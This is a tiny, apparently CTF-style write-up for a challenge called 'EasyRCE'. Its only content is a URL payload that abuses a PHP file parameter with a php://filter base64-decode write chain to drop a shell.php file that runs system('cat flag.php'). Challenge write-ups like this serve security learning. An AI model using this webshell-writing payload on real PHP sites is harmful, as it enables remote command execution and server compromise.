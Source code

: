 ![image](https://github.com/Night-Tac/EasyRCE/blob/main/index.png)  
  
WP  
?file=php://filter/%0A/write=convert.base64-decode/resource=shell.php&code=PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs%3D
